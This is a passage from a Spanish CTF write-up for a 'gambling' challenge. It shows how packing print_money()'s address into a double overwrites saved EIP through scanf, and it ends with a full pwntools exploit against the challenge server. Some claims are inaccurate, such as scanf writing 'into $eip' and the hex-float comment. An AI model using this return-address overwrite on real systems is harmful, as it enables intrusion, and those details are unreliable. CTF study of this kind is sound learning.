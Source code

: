 Listo! Sabemos que tenemos que saltar a la dirección `0x080492c0` para llegar a ejecutar la función `print_money()` la cual nos dará la consola interactiva, pero antes que nada tenemos que construir el valor `double` a enviar con la dirección obtenida.

Para ello queremos que esos 8 bytes que se imprimen en la posición de `f+6` contengan, en su mitad alta (los 4 bytes de más peso), la dirección de `print_money` (0x080492c0). Para ello construiremos la siguiente lógica.

```py
target_addr = 0x080492c0
bits64       = (target_addr << 32)
payload_bytes = struct.pack('<Q', bits64)
payload_double = struct.unpack('<d', payload_bytes)[0]
payload_str   = payload_double.hex()
```
Esa dirección en 64 bits corresponde a `0x080492c000000000` y en little-endian, esos 8 bytes se almacenan como:

    00 00 00 00   c0 92 04 08
    ^—low—^       ^—high—^

Por tanto, cuando scanf hace la séptima lectura `i=6`, escribe esos 8 bytes en el registro `$eip`.
– Los 4 bytes más bajos (todos ceros) se van “más allá” pero no nos importan.
– Los 4 bytes más altos (c0 92 04 08) acaban justo en saved EIP, convirtiéndolo en `0x080492c0`.

Por último pero importante, el salto a la función `print_money()` se ejecuta al terminar la función principal `gamble()`, ya que el ensamblador genera el siguiente código:

    leave   ; equivale a “mov esp, ebp; pop ebp”
    ret     ; pop [esp] → EIP

En este código generado por el propio ensamblador, `leave` restaura el `esp` original y hace `pop ebp` (no importa el valor que lleve).

Además, `ret` hace `pop eip`, y como acabamos de sobrescribir saved EIP con `0x080492c0`, el procesador salta directamente a la función `print_money()`.

El código final es el siguiente.

```py
from pwn import *
import struct

p = remote("challs.umdctf.io", 31005) 
#p = process("./gambling")

#gdb.attach(p, gdbscript="""
#  set follow-fork-mode child
#""")

# Construir doble con los 32 bits altos = target_addr
target_addr = 0x080492c0
bits64       = (target_addr << 32) & 0xffffffffffffffff
payload_bytes = struct.pack('<Q', bits64)
payload_double = struct.unpack('<d', payload_bytes)[0]

# Obtener literal hexadecimal que scanf("%lf") aceptaría si soportara %a
payload_str = payload_double.hex()  # '0x0.00000080492c0p-1022'

input_values = ["1.0", "1.0", "1.0",
                "1.0",
                "1.0", "1.0", payload_str]

inp = " ".join(input_values)
p.sendlineafter("Enter your lucky numbers: ", inp )

p.interactive()
```
